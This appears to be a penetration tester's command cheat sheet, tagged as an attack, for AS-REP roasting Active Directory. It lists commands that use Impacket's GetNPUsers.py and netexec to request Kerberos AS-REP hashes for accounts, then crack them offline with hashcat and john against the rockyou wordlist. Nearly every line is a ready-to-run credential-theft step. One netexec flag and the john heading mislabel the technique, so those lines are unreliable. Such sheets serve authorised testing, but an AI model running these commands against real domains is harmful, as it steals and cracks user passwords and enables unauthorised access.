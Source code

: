 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## ASREPRoast with usersfile
```
GetNPUsers.py -usersfile <usersfile|users.txt> -outputfile hashes.asreproast <domain>/; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

## ASREPRoast with authentication
```
GetNPUsers.py -request -outputfile hashes.asreproast <domain>/'<user>':'<passwd>'; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

## ASREPRoasting with nxc
```
netexec ldap <TARGETS> -u <USER> -p <PASSWORD> --kerberoasting ASREPRoastables.txt --kdcHost <KeyDistributionCenter>
```

## ASREPRoasting users list dynamically queried with a LDAP authenticated bind (password)
```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```

## ASREPRoasting users list dynamically queried with a LDAP authenticated bind (NT hash)
```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```


## Crack ASREPRoast
```
hashcat -m 18200 --force -a 0 <hash_file> </path/to/wordlist>
```

## crack GetUserSPNs using john
```
john --wordlist=$wordlist ASREProastables.txt
```

